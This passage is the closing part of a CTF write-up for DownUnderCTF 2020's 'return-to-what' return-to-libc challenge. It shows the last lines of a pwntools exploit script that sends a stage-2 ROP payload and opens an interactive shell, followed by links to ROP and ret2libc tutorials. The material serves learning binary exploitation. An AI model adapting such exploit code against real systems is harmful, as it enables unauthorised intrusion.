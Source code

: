 ```python
        exit
    ]

    stage2_payload = b"".join(stage2_payload)

    # send stage 2 payload

    p.sendlineafter("?\n",stage2_payload)

    # interact with process

    p.interactive()


if __name__ == "__main__":
    main()
```

![Getting Shell](https://raw.githubusercontent.com/pwndumb/pwndumb.github.io/master/assets/img/commons/return-to-what/vim-awesome-script-terminal-running.png)

## Reference Links

- [Return-to-what Docker](https://github.com/pwndumb/return-to-what-ductf-2020){:target="_blank"}
- [LiveOverflow BinExploitation Youtube List](https://youtu.be/iyAyN3GFM7A){:target="_blank"}
- [bi0s wiki](https://wiki.bi0s.in/pwning/return2libc/return-to-libc/){:target="_blank"}
- [Return to Libc by Saif El-Sherei](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf){:target="_blank"}
- [Rop Code Arcana](https://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html){:target="_blank"}
- [Return to What, DownUnderCTF 2020](https://github.com/DownUnderCTF/Challenges_2020_public/tree/master/pwn/return-to-what){:target="_blank"}
